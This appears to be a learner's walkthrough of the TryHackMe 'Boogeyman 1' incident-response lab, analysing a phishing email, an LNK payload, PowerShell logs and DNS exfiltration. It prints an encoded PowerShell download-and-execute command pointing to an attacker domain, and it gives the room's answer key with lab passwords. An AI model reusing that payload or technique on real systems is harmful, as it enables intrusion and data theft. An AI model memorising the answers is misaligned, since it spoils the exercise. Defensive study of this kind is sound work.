## Boogeyman 1
Uncover the secrets of the new emerging threat, the Boogeyman.
In this room, you will be tasked to analyse the Tactics, Techniques, and Procedures (TTPs) executed by a threat group, from obtaining initial access until achieving its objective. 

### Prerequisites
This room may require the combined knowledge gained from the SOC L1 Pathway. We recommend going through the following rooms before attempting this challenge
* Phishing Analysis Fundamentals
* Analysis Tools
* Windows Event Logs
* Wireshark: Traffic Analysis
* Tshark: The Basics
### Investigation Platform
Before we proceed, deploy the attached machine by clicking the Start Lab Machine button in the upper-right-hand corner of the task. It may take up to 3-5 minutes to initialise the services.

The machine will start in a split-screen view. In case the VM is not visible, use the blue Show Split View button at the top-right of the page.
### Artefacts
For the investigation proper, you will be provided with the following artefacts:
* Copy of the phishing email (dump.eml)
* Powershell Logs from Julianne's workstation (powershell.json)
* Packet capture from the same workstation (capture.pcapng)
Note: The powerhshell.json file contains Json-formatted logs extracted from its original evtx file via the evtx2json (opens in new tab) tool.
You may find these files in the /home/ubuntu/Desktop/artefacts directory.
### Tools
The provided VM contains the following tools at your disposal:
* Thunderbird - a free and open-source cross-platform email client
* LNKParse3 (opens in new tab) - a python package for forensics of a binary file with LNK extension
* Wireshark - GUI-based packet analyser.
* Tshark -CLI-based Wireshark. 
* jq - a lightweight and flexible command-line JSON processor.
To effectively parse and analyse the provided artefacts, you may also utilise built-in command-line tools such as:

* grep
* sed
* awk
* base64

Now, let's start hunting the Boogeyman!
### Answer the questions below
Let's hunt that boogeyman! 
### TASk2) [Email Analysis] Look at the Header
### The Boogeyman is here!
Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP
used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.
You are tasked to analyse and assess the impact of the compromise
### Investigation Guide
Given the initial information, we know that the compromise started with a phishing email. Let's start with analysing the dump.eml file located in the artefacts directory. There are two ways to analyse the headers and rebuild the attachment:

* The manual way uses command-line tools such as cat, grep, base64, and sed. Analyse the contents manually and build the attachment by decoding the string located at the bottom of the file
```bash
ubuntu@tryhackme$ echo # sample command to rebuild the payload, presuming the encoded payload is written in another file, without all line terminators
ubuntu@tryhackme$ cat *PAYLOAD FILE* | base64 -d > Invoice.zip
```
* An alternative and easier way to do this is to double-click the EML file to open it via Thunderbird. The attachment can be saved and extracted accordingly
Once the payload from the encrypted archive is extracted, use lnkparse to extract the information inside the payload
```bash
ubuntu@tryhackme$ lnkparse *LNK FILE*
```
### Answer the questions below
Q1:What is the email address used to send the phishing email?
```bash
agriffin@bpakcaging.xyz
```
We open the email in thunderbird and see the header.

Q2:What is the email address of the victim?
```bash
julianne.westcott@hotmail.com
```
In the same header if we look to To

Q3:What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?
```bash
elasticemail
```
I opene the source in the thunderbird of that email and went to the dkim part and there was 2 dkim signatures one was the attackers self server other was third party which was elastic email

Q4:What is the name of the file inside the encrypted attachment?
```bash
Invoice_20230103.lnk
```
First we download the file from the email and than extract past the code that was given in the mail when extracting.

So After Extracting the file we obtained the file named as Invoice_20230103.lnk
Q5:What is the password of the encrypted attachment?
```bash
Invoice2023!
```
It was given in the email

Q6:Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?
```bash
aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==
```
For this we first ran a command with a tool lnkparese 
```bash
lnkparse Inovice_20230103.lnk
```
and than we go down to argument section.

### Taks3) [Endpoint Secuirty] Are you sure thats an invoice?
With the following discoveries, we should now proceed with analysing the powershell logs to uncover the potential impact of the attack.
* Using the previous findings, we can start our analysis by searching the execution of the initial payload in the powershell logs.
* Since the given data is JSON , we can parse it in CLI using the jq command.
Note: that some logs are redundant and do not contain any critical information; hence can be ignored.
### JQ Cheatsheet
jq is a lightweight and flexible command-line JSON processor. This tool can be used in conjunction with other text-processing commands. 

You may use the following table as a guide in parsing the logs in this task.

Note: You must be familiar with the existing fields in a single log.


You may continue learning this tool via its [documentation](https://stedolan.github.io/jq/manual/)

### Answer the questions below
Q1:What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)
```bash
cdn.bpakcaging.xyz,files.bpakcaging.xyz
```
For this i ran this command 
```bash
 jq -r '.ScriptBlockText? //empty' powershell.json  | grep xyz
```
why i go for xyz cause when we decoded the command that we saw in the lnk parse it was downloading something from the this domain files.bpackaging.xyz

So thats why greped the xyz and got the both domains.

Q2:What is the name of the enumeration tool downloaded by the attacker?
```bash
seatbelt
```
For this i used this command to check what exe files was there
```bash
jq -r '.ScriptBlockText? //empty' powershell.json  | grep exe
```

There was a odd named file seatbelt so i searched on the google and it was enumrating tool

Q3:What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.
```bash
C:\\Users\\j.westcott\\AppData\\Local\\Packages\\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\\LocalState\\plum.sqlite
```
First i search for commandline with sq3.exe and than with cd to get the full path of the file

Q4:What is the software that uses the file in Q3?
```bash
Microsoft Sticky Notes
```
We can see in the path

Q5:What is the name of the exfiltrated file?
```bash
protected_data.kdbx
```
So as i before quried for the logs wiht command line that conatains xyz so there was command that was gonna used for exfiltration.It was using hex variable to send the data so i quried for hex and there an command that was converting a variable bytes into hex paramtere (encoding into hex) and than i again quried for bytes so thats it we got the file name.

Q6:What type of file uses the .kdbx file extension?
```bash
Keepass
```
Do a google search and we will get the answer.

Q7:What is the tool used for exfiltration?
```bash
nslookup
```
Command that was being used for exfiltaration.If we look closing it is using a tool nslookup that is commonly used for resolving domain names into ip address.

### Task4) [Network Traffic Analysis] They Got us.Call the bank immediately
Based on the Powershell logs investigation, we have seen the full impact of the attack:

* The threat actor was able to read and exfiltrate two potentially sensitive files.
* The domains and ports used for the network activity were discovered, including the tool used by the threat actor for exfiltration.

### Investigation Guide
Finally, we can complete the investigation by understanding the network traffic caused by the attack:

* Utilise the domains and ports discovered from the previous task.
* All commands executed by the attacker and all command outputs were logged and stored in the packet capture.
* Follow the streams of the notable commands discovered from Powershell logs.
Based on the Powershell logs, we can retrieve the contents of the exfiltrated data by understanding how it was encoded and extracted.
### Answer the questions below
Q1:What software is used by the attacker to host its presumed file/payload server?
```bash
python
```
First i go to wirehsark and opened the capture.pcap and apply the filter "http.request.method==GET" and than went to its response and look at the host name


Q2:What HTTP method is used by the C2 for the output of the commands executed by the attacker?
```bash
POST
```
We will open a packet of POST request going to malicious domain we copied its POST Data and convert its asciit to text and we see the result of the commands.


Q3:What is the protocol used during the exfiltration activity?
```bash
DNS
```
we know that tool that was used for exfilration was nslookup that resolve the domain names.So it is DNS protocol.
Q4:What is the password of the exfiltrated file?
```bash
%p9^3!lL^Mz47E2GaT^y
```
Q5:What is the credit card number stored inside the exfiltrated file?
```bash
4024007128269551
```
So first we need to takes the all data that was being sent through dns queries.We will be using tshark for that and run this command
tshark -r capture.pcapng -Y "dns" -T fields -e dns.qry.name | grep ".bpakcaging.xyz" | cut -f1 -d '.' | grep -v -e "files" -e "cdn" | uniq | tr -d '\n\ '
After running the command we will get all the hex based data.

Copy all of that go to cyber chef and decode it.It will be gibrish save as .kbdx file.

Now go to the  [app.keeweb.info](https://app.keeweb.info/) and open that file.It will ask for password that is same as previous question paste in it and it will open it.
